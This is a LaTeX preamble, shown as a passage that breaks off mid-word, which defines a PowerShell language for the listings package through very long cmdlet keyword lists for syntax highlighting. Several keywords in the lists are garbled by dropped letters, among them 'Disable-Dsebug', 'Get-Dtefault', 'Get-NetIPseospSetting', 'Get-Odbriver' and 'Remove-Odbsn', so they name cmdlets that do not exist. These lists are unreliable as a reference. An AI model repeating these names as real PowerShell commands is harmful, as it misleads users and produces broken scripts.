\documentclass[UTF8]{ctexart}
\ctexset{section/format=\Large\bfseries}

% Packages
% font
\usepackage{fontspec}
\setmonofont{Fira Code}[
Contextuals=Alternate  % Activate the calt feature
]
% tikz
\usepackage{tikz}
\usepackage{graphicx}
% listing
\usepackage{listings}
\usepackage{lstfiracode}
\lstdefinelanguage{PowerShell}{
	morekeywords={
		Add-Content,Add-PSSnapin,Clear-Content,Clear-History,Clear-Host,Clear-Item,Clear-ItemProperty,Clear-Variable,Compare-Object,Connect-PSSession,ConvertFrom-String,Convert-Path,Copy-Item,Copy-ItemProperty,Disable-PSBreakpoint,Disconnect-PSSession,Enable-PSBreakpoint,Enter-PSSession,Exit-PSSession,Export-Alias,Export-Csv,Export-PSSession,ForEach-Object,Format-Custom,Format-Hex,Format-List,Format-Table,Format-Wide,Get-Alias,Get-ChildItem,Get-Clipboard,Get-Command,Get-ComputerInfo,Get-Content,Get-History,Get-Item,Get-ItemProperty,Get-ItemPropertyValue,Get-Job,Get-Location,Get-Member,Get-Module,Get-Process,Get-PSBreakpoint,Get-PSCallStack,Get-PSDrive,Get-PSSession,Get-PSSnapin,Get-Service,Get-TimeZone,Get-Unique,Get-Variable,Get-WmiObject,Group-Object,help,Import-Alias,Import-Csv,Import-Module,Import-PSSession,Invoke-Command,Invoke-Expression,Invoke-History,Invoke-Item,Invoke-RestMethod,Invoke-WebRequest,Invoke-WmiMethod,Measure-Object,mkdir,Move-Item,Move-ItemProperty,New-Alias,New-Item,New-Module,New-PSDrive,New-PSSession,New-PSSessionConfigurationFile,New-Variable,Out-GridView,Out-Host,Out-Printer,Pop-Location,powershell_ise.exe,Push-Location,Receive-Job,Receive-PSSession,Remove-Item,Remove-ItemProperty,Remove-Job,Remove-Module,Remove-PSBreakpoint,Remove-PSDrive,Remove-PSSession,Remove-PSSnapin,Remove-Variable,Remove-WmiObject,Rename-Item,Rename-ItemProperty,Resolve-Path,Resume-Job,Select-Object,Select-String,Set-Alias,Set-Clipboard,Set-Content,Set-Item,Set-ItemProperty,Set-Location,Set-PSBreakpoint,Set-TimeZone,Set-Variable,Set-WmiInstance,Show-Command,Sort-Object,Start-Job,Start-Process,Start-Service,Start-Sleep,Stop-Job,Stop-Process,Stop-Service,Suspend-Job,Tee-Object,Trace-Command,Wait-Job,Where-Object,Write-Output
	},
	morekeywords={
		Add-AppxPackage,Add-AppxProvisionedPackage,Add-AppxVolume,Add-BitsFile,Add-CertificateEnrollmentPolicyServer,Add-Computer,Add-Content,Add-History,Add-JobTrigger,Add-KdsRootKey,Add-LocalGroupMember,Add-Member,Add-PSSnapin,Add-Type,Add-WindowsCapability,Add-WindowsDriver,Add-WindowsImage,Add-WindowsPackage,Checkpoint-Computer,Clear-Content,Clear-EventLog,Clear-History,Clear-Item,Clear-ItemProperty,Clear-KdsCache,Clear-RecycleBin,Clear-Tpm,Clear-Variable,Clear-WindowsCorruptMountPoint,Compare-Object,Complete-BitsTransfer,Complete-DtiagnosticTransaction,Complete-Transaction,Confirm-SecureBootUEFI,Connect-PSSession,Connect-WSMan,ConvertFrom-Csv,ConvertFrom-Json,ConvertFrom-SecureString,ConvertFrom-String,ConvertFrom-StringData,Convert-Path,Convert-String,ConvertTo-Csv,ConvertTo-Html,ConvertTo-Json,ConvertTo-ProcessMitigationPolicy,ConvertTo-SecureString,ConvertTo-TpmOwnerAuth,ConvertTo-Xml,Copy-Item,Copy-ItemProperty,Debug-Job,Debug-Process,Debug-Runspace,Disable-AppBackgroundTaskDiagnosticLog,Disable-ComputerRestore,Disable-JobTrigger,Disable-LocalUser,Disable-PSBreakpoint,Disable-PSRemoting,Disable-PSSessionConfiguration,Disable-RunspaceDebug,Disable-ScheduledJob,Disable-TlsCipherSuite,Disable-TlsEccCurve,Disable-TlsSessionTicketKey,Disable-TpmAutoProvisioning,Disable-WindowsErrorReporting,Disable-WindowsOptionalFeature,Disable-WSManCredSSP,Disconnect-PSSession,Disconnect-WSMan,Dismount-AppxVolume,Dismount-WindowsImage,Enable-AppBackgroundTaskDiagnosticLog,Enable-ComputerRestore,Enable-JobTrigger,Enable-LocalUser,Enable-PSBreakpoint,Enable-PSRemoting,Enable-PSSessionConfiguration,Enable-RunspaceDebug,Enable-ScheduledJob,Enable-TlsCipherSuite,Enable-TlsEccCurve,Enable-TlsSessionTicketKey,Enable-TpmAutoProvisioning,Enable-WindowsErrorReporting,Enable-WindowsOptionalFeature,Enable-WSManCredSSP,Enter-PSHostProcess,Enter-PSSession,Exit-PSHostProcess,Exit-PSSession,Expand-WindowsCustomDataImage,Expand-WindowsImage,Export-Alias,Export-BinaryMiLog,Export-Certificate,Export-Clixml,Export-Console,Export-Counter,Export-Csv,Export-FormatData,Export-ModuleMember,Export-PfxCertificate,Export-ProvisioningPackage,Export-PSSession,Export-StartLayout,Export-StartLayoutEdgeAssets,Export-TlsSessionTicketKey,Export-Trace,Export-WindowsCapabilitySource,Export-WindowsDriver,Export-WindowsImage,Find-Package,Find-PackageProvider,ForEach-Object,Format-Custom,Format-List,Format-SecureBootUEFI,Format-Table,Format-Wide,Get-Acl,Get-Alias,Get-AppxDefaultVolume,Get-AppxPackage,Get-AppxPackageManifest,Get-AppxProvisionedPackage,Get-AppxVolume,Get-AuthenticodeSignature,Get-BitsTransfer,Get-Certificate,Get-CertificateAutoEnrollmentPolicy,Get-CertificateEnrollmentPolicyServer,Get-CertificateNotificationTask,Get-ChildItem,Get-CimAssociatedInstance,Get-CimClass,Get-CimInstance,Get-CimSession,Get-Clipboard,Get-CmsMessage,Get-Command,Get-ComputerInfo,Get-ComputerRestorePoint,Get-Content,Get-ControlPanelItem,Get-Counter,Get-Credential,Get-Culture,Get-DAPolicyChange,Get-Date,Get-DeliveryOptimizationLog,Get-DeliveryOptimizationPerfSnap,Get-DeliveryOptimizationPerfSnapThisMonth,Get-DeliveryOptimizationStatus,Get-DODownloadMode,Get-DOPercentageMaxBackgroundBandwidth,Get-DOPercentageMaxForegroundBandwidth,Get-Event,Get-EventLog,Get-EventSubscriber,Get-ExecutionPolicy,Get-FormatData,Get-Help,Get-History,Get-Host,Get-HotFix,Get-Item,Get-ItemProperty,Get-ItemPropertyValue,Get-Job,Get-JobTrigger,Get-KdsConfiguration,Get-KdsRootKey,Get-LocalGroup,Get-LocalGroupMember,Get-LocalUser,Get-Location,Get-Member,Get-Module,Get-Package,Get-PackageProvider,Get-PackageSource,Get-PfxCertificate,Get-PfxData,Get-PmemDisk,Get-PmemPhysicalDevice,Get-PmemUnusedRegion,Get-Process,Get-ProcessMitigation,Get-ProvisioningPackage,Get-PSBreakpoint,Get-PSCallStack,Get-PSDrive,Get-PSHostProcessInfo,Get-PSProvider,Get-PSReadlineKeyHandler,Get-PSReadlineOption,Get-PSSession,Get-PSSessionCapability,Get-PSSessionConfiguration,Get-PSSnapin,Get-Random,Get-Runspace,Get-RunspaceDebug,Get-ScheduledJob,Get-ScheduledJobOption,Get-SecureBootPolicy,Get-SecureBootUEFI,Get-Service,Get-TimeZone,Get-TlsCipherSuite,Get-TlsEccCurve,Get-Tpm,Get-TpmEndorsementKeyInfo,Get-TpmSupportedFeature,Get-TraceSource,Get-Transaction,Get-TroubleshootingPack,Get-TrustedProvisioningCertificate,Get-TypeData,Get-UICulture,Get-Unique,Get-Variable,Get-WIMBootEntry,Get-WinAcceptLanguageFromLanguageListOptOut,Get-WinCultureFromLanguageListOptOut,Get-WinDefaultInputMethodOverride,Get-WindowsCapability,Get-WindowsDeveloperLicense,Get-WindowsDriver,Get-WindowsEdition,Get-WindowsErrorReporting,Get-WindowsImage,Get-WindowsImageContent,Get-WindowsOptionalFeature,Get-WindowsPackage,Get-WindowsSearchSetting,Get-WinEvent,Get-WinHomeLocation,Get-WinLanguageBarOption,Get-WinSystemLocale,Get-WinUILanguageOverride,Get-WinUserLanguageList,Get-WmiObject,Get-WSManCredSSP,Get-WSManInstance,Group-Object,Import-Alias,Import-BinaryMiLog,Import-Certificate,Import-Clixml,Import-Counter,Import-Csv,Import-LocalizedData,Import-Module,Import-PackageProvider,Import-PfxCertificate,Import-PSSession,Import-StartLayout,Import-TpmOwnerAuth,Initialize-PmemPhysicalDevice,Initialize-Tpm,Install-Package,Install-PackageProvider,Install-ProvisioningPackage,Install-TrustedProvisioningCertificate,Invoke-CimMethod,Invoke-Command,Invoke-CommandInDesktopPackage,Invoke-DscResource,Invoke-Expression,Invoke-History,Invoke-Item,Invoke-RestMethod,Invoke-TroubleshootingPack,Invoke-WebRequest,Invoke-WmiMethod,Invoke-WSManAction,Join-DtiagnosticResourceManager,Join-Path,Limit-EventLog,Measure-Command,Measure-Object,Mount-AppxVolume,Mount-WindowsImage,Move-AppxPackage,Move-Item,Move-ItemProperty,New-Alias,New-CertificateNotificationTask,New-CimInstance,New-CimSession,New-CimSessionOption,New-DtiagnosticTransaction,New-Event,New-EventLog,New-FileCatalog,New-Item,New-ItemProperty,New-JobTrigger,New-LocalGroup,New-LocalUser,New-Module,New-ModuleManifest,New-NetIPsecAuthProposal,New-NetIPsecMainModeCryptoProposal,New-NetIPsecQuickModeCryptoProposal,New-Object,New-PmemDisk,New-ProvisioningRepro,New-PSDrive,New-PSRoleCapabilityFile,New-PSSession,New-PSSessionConfigurationFile,New-PSSessionOption,New-PSTransportOption,New-PSWorkflowExecutionOption,New-ScheduledJobOption,New-SelfSignedCertificate,New-Service,New-TimeSpan,New-TlsSessionTicketKey,New-Variable,New-WebServiceProxy,New-WindowsCustomImage,New-WindowsImage,New-WinEvent,New-WinUserLanguageList,New-WSManInstance,New-WSManSessionOption,Optimize-AppxProvisionedPackages,Optimize-WindowsImage,Out-Default,Out-File,Out-GridView,Out-Host,Out-Null,Out-Printer,Out-String,Pop-Location,Protect-CmsMessage,Publish-DscConfiguration,Push-Location,Read-Host,Receive-DtiagnosticTransaction,Receive-Job,Receive-PSSession,Register-ArgumentCompleter,Register-CimIndicationEvent,Register-EngineEvent,Register-ObjectEvent,Register-PackageSource,Register-PSSessionConfiguration,Register-ScheduledJob,Register-WmiEvent,Remove-AppxPackage,Remove-AppxProvisionedPackage,Remove-AppxVolume,Remove-BitsTransfer,Remove-CertificateEnrollmentPolicyServer,Remove-CertificateNotificationTask,Remove-CimInstance,Remove-CimSession,Remove-Computer,Remove-Event,Remove-EventLog,Remove-Item,Remove-ItemProperty,Remove-Job,Remove-JobTrigger,Remove-LocalGroup,Remove-LocalGroupMember,Remove-LocalUser,Remove-Module,Remove-PmemDisk,Remove-PSBreakpoint,Remove-PSDrive,Remove-PSReadlineKeyHandler,Remove-PSSession,Remove-PSSnapin,Remove-TypeData,Remove-Variable,Remove-WindowsCapability,Remove-WindowsDriver,Remove-WindowsImage,Remove-WindowsPackage,Remove-WmiObject,Remove-WSManInstance,Rename-Computer,Rename-Item,Rename-ItemProperty,Rename-LocalGroup,Rename-LocalUser,Repair-WindowsImage,Reset-ComputerMachinePassword,Resolve-DnsName,Resolve-Path,Restart-Computer,Restart-Service,Restore-Computer,Resume-BitsTransfer,Resume-Job,Resume-ProvisioningSession,Resume-Service,Save-Help,Save-Package,Save-WindowsImage,Select-Object,Select-String,Select-Xml,Send-DtiagnosticTransaction,Send-MailMessage,Set-Acl,Set-Alias,Set-AppBackgroundTaskResourcePolicy,Set-AppxDefaultVolume,Set-AppXProvisionedDataFile,Set-AuthenticodeSignature,Set-BitsTransfer,Set-CertificateAutoEnrollmentPolicy,Set-CimInstance,Set-Clipboard,Set-Content,Set-Culture,Set-Date,Set-DODownloadMode,Set-DOPercentageMaxBackgroundBandwidth,Set-DOPercentageMaxForegroundBandwidth,Set-DscLocalConfigurationManager,Set-ExecutionPolicy,Set-Item,Set-ItemProperty,Set-JobTrigger,Set-KdsConfiguration,Set-LocalGroup,Set-LocalUser,Set-Location,Set-PackageSource,Set-ProcessMitigation,Set-PSBreakpoint,Set-PSDebug,Set-PSReadlineKeyHandler,Set-PSReadlineOption,Set-PSSessionConfiguration,Set-ScheduledJob,Set-ScheduledJobOption,Set-SecureBootUEFI,Set-Service,Set-StrictMode,Set-TimeZone,Set-TpmOwnerAuth,Set-TraceSource,Set-Variable,Set-WinAcceptLanguageFromLanguageListOptOut,Set-WinCultureFromLanguageListOptOut,Set-WinDefaultInputMethodOverride,Set-WindowsEdition,Set-WindowsProductKey,Set-WindowsSearchSetting,Set-WinHomeLocation,Set-WinLanguageBarOption,Set-WinSystemLocale,Set-WinUILanguageOverride,Set-WinUserLanguageList,Set-WmiInstance,Set-WSManInstance,Set-WSManQuickConfig,Show-Command,Show-ControlPanelItem,Show-EventLog,Show-WindowsDeveloperLicenseRegistration,Sort-Object,Split-Path,Split-WindowsImage,Start-BitsTransfer,Start-DscConfiguration,Start-DtiagnosticResourceManager,Start-Job,Start-Process,Start-Service,Start-Sleep,Start-Transaction,Start-Transcript,Stop-Computer,Stop-DtiagnosticResourceManager,Stop-Job,Stop-Process,Stop-Service,Stop-Transcript,Suspend-BitsTransfer,Suspend-Job,Suspend-Service,Switch-Certificate,Tee-Object,Test-Certificate,Test-ComputerSecureChannel,Test-Connection,Test-DscConfiguration,Test-FileCatalog,Test-KdsRootKey,Test-ModuleManifest,Test-Path,Test-PSSessionConfigurationFile,Test-WSMan,Trace-Command,Unblock-File,Unblock-Tpm,Undo-DtiagnosticTransaction,Undo-Transaction,Uninstall-Package,Uninstall-ProvisioningPackage,Uninstall-TrustedProvisioningCertificate,Unprotect-CmsMessage,Unregister-Event,Unregister-PackageSource,Unregister-PSSessionConfiguration,Unregister-ScheduledJob,Unregister-WindowsDeveloperLicense,Update-FormatData,Update-Help,Update-List,Update-TypeData,Update-WIMBootEntry,Use-Transaction,Use-WindowsUnattend,Wait-Debugger,Wait-Event,Wait-Job,Wait-Process,Where-Object,Write-Debug,Write-Error,Write-EventLog,Write-Host,Write-Information,Write-Output,Write-Progress,Write-Verbose,Write-Warning
	},
	morekeywords={
		Add-BitLockerKeyProtector,Add-DnsClientNrptRule,Add-DtcClusterTMMapping,Add-EtwTraceProvider,Add-InitiatorIdToMaskingSet,Add-MpPreference,Add-NetEventNetworkAdapter,Add-NetEventPacketCaptureProvider,Add-NetEventProvider,Add-NetEventVFPProvider,Add-NetEventVmNetworkAdapter,Add-NetEventVmSwitch,Add-NetEventVmSwitchProvider,Add-NetEventWFPCaptureProvider,Add-NetIPHttpsCertBinding,Add-NetLbfoTeamMember,Add-NetLbfoTeamNic,Add-NetNatExternalAddress,Add-NetNatStaticMapping,Add-NetSwitchTeamMember,Add-Odbsn,Add-PartitionAccessPath,Add-PhysicalDisk,Add-Printer,Add-PrinterDriver,Add-PrinterPort,Add-StorageFaultDomain,Add-TargetPortToMaskingSet,Add-VirtualDiskToMaskingSet,Add-VpnConnection,Add-VpnConnectionRoute,Add-VpnConnectionTriggerApplication,Add-VpnConnectionTriggerDnsConfiguration,Add-VpnConnectionTriggerTrustedNetwork,AfterAll,AfterEach,Assert-MockCalled,Assert-VerifiableMocks,Backup-BitLockerKeyProtector,BackupToAAD-BitLockerKeyProtector,BeforeAll,BeforeEach,Block-FileShareAccess,Block-SmbShareAccess,Clear-BitLockerAutoUnlock,Clear-Disk,Clear-DnsClientCache,Clear-FileStorageTier,Clear-Host,Clear-PcsvDeviceLog,Clear-StorageDiagnosticInfo,Close-SmbOpenFile,Close-SmbSession,Compress-Archive,Configuration,Connect-IscsiTarget,Connect-VirtualDisk,Context,convert,ConvertFrom-SddlString,Copy-NetFirewallRule,Copy-NetIPsecMainModeCryptoSet,Copy-NetIPsecMainModeRule,Copy-NetIPsecPhase1AuthSet,Copy-NetIPsecPhase2AuthSet,Copy-NetIPsecQuickModeCryptoSet,Copy-NetIPsecRule,Debug-FileShare,Debug-MMAppPrelaunch,Debug-StorageSubSystem,Debug-Volume,Describe,Disable-BitLocker,Disable-BitLockerAutoUnlock,Disable-DAManualEntryPointSelection,Disable-Dsebug,Disable-MMAgent,Disable-NetAdapter,Disable-NetAdapterBinding,Disable-NetAdapterChecksumOffload,Disable-NetAdapterEncapsulatedPacketTaskOffload,Disable-NetAdapterIPsecOffload,Disable-NetAdapterLso,Disable-NetAdapterPacketDirect,Disable-NetAdapterPowerManagement,Disable-NetAdapterQos,Disable-NetAdapterRdma,Disable-NetAdapterRsc,Disable-NetAdapterRss,Disable-NetAdapterSriov,Disable-NetAdapterVmq,Disable-NetDnsTransitionConfiguration,Disable-NetFirewallRule,Disable-NetIPHttpsProfile,Disable-NetIPsecMainModeRule,Disable-NetIPsecRule,Disable-NetNatTransitionConfiguration,Disable-NetworkSwitchEthernetPort,Disable-NetworkSwitchFeature,Disable-NetworkSwitchVlan,Disable-OdbcPerfCounter,Disable-PhysicalDiskIdentification,Disable-PnpDevice,Disable-PSTrace,Disable-PSWSManCombinedTrace,Disable-ScheduledTask,Disable-SmbDelegation,Disable-StorageEnclosureIdentification,Disable-StorageEnclosurePower,Disable-StorageHighAvailability,Disable-StorageMaintenanceMode,Disable-WdacBidTrace,Disable-WSManTrace,Disconnect-IscsiTarget,Disconnect-VirtualDisk,Dismount-DiskImage,Enable-BitLocker,Enable-BitLockerAutoUnlock,Enable-DAManualEntryPointSelection,Enable-Dsebug,Enable-MMAgent,Enable-NetAdapter,Enable-NetAdapterBinding,Enable-NetAdapterChecksumOffload,Enable-NetAdapterEncapsulatedPacketTaskOffload,Enable-NetAdapterIPsecOffload,Enable-NetAdapterLso,Enable-NetAdapterPacketDirect,Enable-NetAdapterPowerManagement,Enable-NetAdapterQos,Enable-NetAdapterRdma,Enable-NetAdapterRsc,Enable-NetAdapterRss,Enable-NetAdapterSriov,Enable-NetAdapterVmq,Enable-NetDnsTransitionConfiguration,Enable-NetFirewallRule,Enable-NetIPHttpsProfile,Enable-NetIPsecMainModeRule,Enable-NetIPsecRule,Enable-NetNatTransitionConfiguration,Enable-NetworkSwitchEthernetPort,Enable-NetworkSwitchFeature,Enable-NetworkSwitchVlan,Enable-OdbcPerfCounter,Enable-PhysicalDiskIdentification,Enable-PnpDevice,Enable-PSTrace,Enable-PSWSManCombinedTrace,Enable-ScheduledTask,Enable-SmbDelegation,Enable-StorageEnclosureIdentification,Enable-StorageEnclosurePower,Enable-StorageHighAvailability,Enable-StorageMaintenanceMode,Enable-WdacBidTrace,Enable-WSManTrace,Expand-Archive,Export-ODataEndpointProxy,Export-ScheduledTask,Find-Command,Find-DscResource,Find-Module,Find-NetIPsecRule,Find-NetRoute,Find-RoleCapability,Find-Script,Flush-EtwTraceSession,Format-Hex,Format-Volume,Get-AppBackgroundTask,Get-AppxLastError,Get-AppxLog,Get-AutologgerConfig,Get-BitLockerVolume,Get-ClusteredScheduledTask,Get-DAClientExperienceConfiguration,Get-DAConnectionStatus,Get-DAEntryPointTableItem,Get-DedupProperties,Get-Disk,Get-DiskImage,Get-DiskStorageNodeView,Get-DnsClient,Get-DnsClientCache,Get-DnsClientGlobalSetting,Get-DnsClientNrptGlobal,Get-DnsClientNrptPolicy,Get-DnsClientNrptRule,Get-DnsClientServerAddress,Get-DscConfiguration,Get-DscConfigurationStatus,Get-DscLocalConfigurationManager,Get-DscResource,Get-Dtc,Get-DtcAdvancedHostSetting,Get-DtcAdvancedSetting,Get-DtcClusterDefault,Get-DtcClusterTMMapping,Get-Dtefault,Get-DtcLog,Get-DtcNetworkSetting,Get-DtcTransaction,Get-DtcTransactionsStatistics,Get-DtcTransactionsTraceSession,Get-DtcTransactionsTraceSetting,Get-EtwTraceProvider,Get-EtwTraceSession,Get-FileHash,Get-FileIntegrity,Get-FileShare,Get-FileShareAccessControlEntry,Get-FileStorageTier,Get-InitiatorId,Get-InitiatorPort,Get-InstalledModule,Get-InstalledScript,Get-IscsiConnection,Get-IscsiSession,Get-IscsiTarget,Get-IscsiTargetPortal,Get-IseSnippet,Get-LogProperties,Get-MaskingSet,Get-MMAgent,Get-MockDynamicParameters,Get-MpComputerStatus,Get-MpPreference,Get-MpThreat,Get-MpThreatCatalog,Get-MpThreatDetection,Get-NCSIPolicyConfiguration,Get-Net6to4Configuration,Get-NetAdapter,Get-NetAdapterAdvancedProperty,Get-NetAdapterBinding,Get-NetAdapterChecksumOffload,Get-NetAdapterEncapsulatedPacketTaskOffload,Get-NetAdapterHardwareInfo,Get-NetAdapterIPsecOffload,Get-NetAdapterLso,Get-NetAdapterPacketDirect,Get-NetAdapterPowerManagement,Get-NetAdapterQos,Get-NetAdapterRdma,Get-NetAdapterRsc,Get-NetAdapterRss,Get-NetAdapterSriov,Get-NetAdapterSriovVf,Get-NetAdapterStatistics,Get-NetAdapterVmq,Get-NetAdapterVMQQueue,Get-NetAdapterVPort,Get-NetCompartment,Get-NetConnectionProfile,Get-NetDnsTransitionConfiguration,Get-NetDnsTransitionMonitoring,Get-NetEventNetworkAdapter,Get-NetEventPacketCaptureProvider,Get-NetEventProvider,Get-NetEventSession,Get-NetEventVFPProvider,Get-NetEventVmNetworkAdapter,Get-NetEventVmSwitch,Get-NetEventVmSwitchProvider,Get-NetEventWFPCaptureProvider,Get-NetFirewallAddressFilter,Get-NetFirewallApplicationFilter,Get-NetFirewallInterfaceFilter,Get-NetFirewallInterfaceTypeFilter,Get-NetFirewallPortFilter,Get-NetFirewallProfile,Get-NetFirewallRule,Get-NetFirewallSecurityFilter,Get-NetFirewallServiceFilter,Get-NetFirewallSetting,Get-NetIPAddress,Get-NetIPConfiguration,Get-NetIPHttpsConfiguration,Get-NetIPHttpsState,Get-NetIPInterface,Get-NetIPseospSetting,Get-NetIPsecMainModeCryptoSet,Get-NetIPsecMainModeRule,Get-NetIPsecMainModeSA,Get-NetIPsecPhase1AuthSet,Get-NetIPsecPhase2AuthSet,Get-NetIPsecQuickModeCryptoSet,Get-NetIPsecQuickModeSA,Get-NetIPsecRule,Get-NetIPv4Protocol,Get-NetIPv6Protocol,Get-NetIsatapConfiguration,Get-NetLbfoTeam,Get-NetLbfoTeamMember,Get-NetLbfoTeamNic,Get-NetNat,Get-NetNatExternalAddress,Get-NetNatGlobal,Get-NetNatSession,Get-NetNatStaticMapping,Get-NetNatTransitionConfiguration,Get-NetNatTransitionMonitoring,Get-NetNeighbor,Get-NetOffloadGlobalSetting,Get-NetPrefixPolicy,Get-NetQosPolicy,Get-NetRoute,Get-NetSwitchTeam,Get-NetSwitchTeamMember,Get-NetTCPConnection,Get-NetTCPSetting,Get-NetTeredoConfiguration,Get-NetTeredoState,Get-NetTransportFilter,Get-NetUDPEndpoint,Get-NetUDPSetting,Get-NetworkSwitchEthernetPort,Get-NetworkSwitchFeature,Get-NetworkSwitchGlobalData,Get-NetworkSwitchVlan,Get-Odbriver,Get-Odbsn,Get-OdbcPerfCounter,Get-OffloadDataTransferSetting,Get-OperationValidation,Get-Partition,Get-PartitionSupportedSize,Get-PcsvDevice,Get-PcsvDeviceLog,Get-PhysicalDisk,Get-PhysicalDiskStorageNodeView,Get-PhysicalExtent,Get-PhysicalExtentAssociation,Get-PnpDevice,Get-PnpDeviceProperty,Get-PrintConfiguration,Get-Printer,Get-PrinterDriver,Get-PrinterPort,Get-PrinterProperty,Get-PrintJob,Get-PSRepository,Get-ResiliencySetting,Get-ScheduledTask,Get-ScheduledTaskInfo,Get-SmbBandWidthLimit,Get-SmbClientConfiguration,Get-SmbClientNetworkInterface,Get-SmbConnection,Get-SmbDelegation,Get-SmbGlobalMapping,Get-SmbMapping,Get-SmbMultichannelConnection,Get-SmbMultichannelConstraint,Get-SmbOpenFile,Get-SmbServerConfiguration,Get-SmbServerNetworkInterface,Get-SmbSession,Get-SmbShare,Get-SmbShareAccess,Get-SmbWitnessClient,Get-StartApps,Get-StorageAdvancedProperty,Get-StorageDiagnosticInfo,Get-StorageEnclosure,Get-StorageEnclosureStorageNodeView,Get-StorageEnclosureVendorData,Get-StorageExtendedStatus,Get-StorageFaultDomain,Get-StorageFileServer,Get-StorageFirmwareInformation,Get-StorageHealthAction,Get-StorageHealthReport,Get-StorageHealthSetting,Get-StorageJob,Get-StorageNode,Get-StoragePool,Get-StorageProvider,Get-StorageReliabilityCounter,Get-StorageSetting,Get-StorageSubSystem,Get-StorageTier,Get-StorageTierSupportedSize,Get-SupportedClusterSizes,Get-SupportedFileSystems,Get-TargetPort,Get-TargetPortal,Get-TestDriveItem,Get-Verb,Get-VirtualDisk,Get-VirtualDiskSupportedSize,Get-Volume,Get-VolumeCorruptionCount,Get-VolumeScrubPolicy,Get-VpnConnection,Get-VpnConnectionTrigger,Get-WdacBidTrace,Get-WindowsUpdateLog,Get-WUAVersion,Get-WUIsPendingReboot,Get-WULastInstallationDate,Get-WULastScanSuccessDate,Grant-FileShareAccess,Grant-SmbShareAccess,help,Hide-VirtualDisk,Import-IseSnippet,Import-PowerShellDataFile,ImportSystemModules,In,Initialize-Disk,InModuleScope,Install-Dtc,Install-Module,Install-Script,Install-WUUpdates,Invoke-AsWorkflow,Invoke-Mock,Invoke-OperationValidation,Invoke-Pester,It,Lock-BitLocker,mkdir,Mock,more,Mount-DiskImage,Move-SmbWitnessClient,New-AutologgerConfig,New-DAEntryPointTableItem,New-DscChecksum,New-EapConfiguration,New-EtwTraceSession,New-FileShare,New-Fixture,New-Guid,New-IscsiTargetPortal,New-IseSnippet,New-MaskingSet,New-NetAdapterAdvancedProperty,New-NetEventSession,New-NetFirewallRule,New-NetIPAddress,New-NetIPHttpsConfiguration,New-NetIPseospSetting,New-NetIPsecMainModeCryptoSet,New-NetIPsecMainModeRule,New-NetIPsecPhase1AuthSet,New-NetIPsecPhase2AuthSet,New-NetIPsecQuickModeCryptoSet,New-NetIPsecRule,New-NetLbfoTeam,New-NetNat,New-NetNatTransitionConfiguration,New-NetNeighbor,New-NetQosPolicy,New-NetRoute,New-NetSwitchTeam,New-NetTransportFilter,New-NetworkSwitchVlan,New-Partition,New-PesterOption,New-PSWorkflowSession,New-ScheduledTask,New-ScheduledTaskAction,New-ScheduledTaskPrincipal,New-ScheduledTaskSettingsSet,New-ScheduledTaskTrigger,New-ScriptFileInfo,New-SmbGlobalMapping,New-SmbMapping,New-SmbMultichannelConstraint,New-SmbShare,New-StorageFileServer,New-StoragePool,New-StorageSubsystemVirtualDisk,New-StorageTier,New-TemporaryFile,New-VirtualDisk,New-VirtualDiskClone,New-VirtualDiskSnapshot,New-Volume,New-VpnServerAddress,Open-NetGPO,Optimize-StoragePool,Optimize-Volume,oss,Pause,prompt,PSConsoleHostReadline,Publish-Module,Publish-Script,Read-PrinterNfcTag,Register-ClusteredScheduledTask,Register-DnsClient,Register-IscsiSession,Register-PSRepository,Register-ScheduledTask,Register-StorageSubsystem,Remove-AutologgerConfig,Remove-BitLockerKeyProtector,Remove-DAEntryPointTableItem,Remove-DnsClientNrptRule,Remove-DscConfigurationDocument,Remove-DtcClusterTMMapping,Remove-EtwTraceProvider,Remove-FileShare,Remove-InitiatorId,Remove-InitiatorIdFromMaskingSet,Remove-IscsiTargetPortal,Remove-MaskingSet,Remove-MpPreference,Remove-MpThreat,Remove-NetAdapterAdvancedProperty,Remove-NetEventNetworkAdapter,Remove-NetEventPacketCaptureProvider,Remove-NetEventProvider,Remove-NetEventSession,Remove-NetEventVFPProvider,Remove-NetEventVmNetworkAdapter,Remove-NetEventVmSwitch,Remove-NetEventVmSwitchProvider,Remove-NetEventWFPCaptureProvider,Remove-NetFirewallRule,Remove-NetIPAddress,Remove-NetIPHttpsCertBinding,Remove-NetIPHttpsConfiguration,Remove-NetIPseospSetting,Remove-NetIPsecMainModeCryptoSet,Remove-NetIPsecMainModeRule,Remove-NetIPsecMainModeSA,Remove-NetIPsecPhase1AuthSet,Remove-NetIPsecPhase2AuthSet,Remove-NetIPsecQuickModeCryptoSet,Remove-NetIPsecQuickModeSA,Remove-NetIPsecRule,Remove-NetLbfoTeam,Remove-NetLbfoTeamMember,Remove-NetLbfoTeamNic,Remove-NetNat,Remove-NetNatExternalAddress,Remove-NetNatStaticMapping,Remove-NetNatTransitionConfiguration,Remove-NetNeighbor,Remove-NetQosPolicy,Remove-NetRoute,Remove-NetSwitchTeam,Remove-NetSwitchTeamMember,Remove-NetTransportFilter,Remove-NetworkSwitchEthernetPortIPAddress,Remove-NetworkSwitchVlan,Remove-Odbsn,Remove-Partition,Remove-PartitionAccessPath,Remove-PhysicalDisk,Remove-Printer,Remove-PrinterDriver,Remove-PrinterPort,Remove-PrintJob,Remove-SmbBandwidthLimit,Remove-SmbGlobalMapping,Remove-SmbMapping,Remove-SmbMultichannelConstraint,Remove-SmbShare,Remove-StorageFaultDomain,Remove-StorageFileServer,Remove-StorageHealthIntent,Remove-StorageHealthSetting,Remove-StoragePool,Remove-StorageTier,Remove-TargetPortFromMaskingSet,Remove-VirtualDisk,Remove-VirtualDiskFromMaskingSet,Remove-VpnConnection,Remove-VpnConnectionRoute,Remove-VpnConnectionTriggerApplication,Remove-VpnConnectionTriggerDnsConfiguration,Remove-VpnConnectionTriggerTrustedNetwork,Rename-DAEntryPointTableItem,Rename-MaskingSet,Rename-NetAdapter,Rename-NetFirewallRule,Rename-NetIPHttpsConfiguration,Rename-NetIPsecMainModeCryptoSet,Rename-NetIPsecMainModeRule,Rename-NetIPsecPhase1AuthSet,Rename-NetIPsecPhase2AuthSet,Rename-NetIPsecQuickModeCryptoSet,Rename-NetIPsecRule,Rename-NetLbfoTeam,Rename-NetSwitchTeam,Rename-Printer,Repair-FileIntegrity,Repair-VirtualDisk,Repair-Volume,Reset-DAClientExperienceConfiguration,Reset-DAEntryPointTableItem,Reset-DtcLog,Reset-NCSIPolicyConfiguration,Reset-Net6to4Configuration,Reset-NetAdapterAdvancedProperty,Reset-NetDnsTransitionConfiguration,Reset-NetIPHttpsConfiguration,Reset-NetIsatapConfiguration,Reset-NetTeredoConfiguration,Reset-PhysicalDisk,Reset-StorageReliabilityCounter,Resize-Par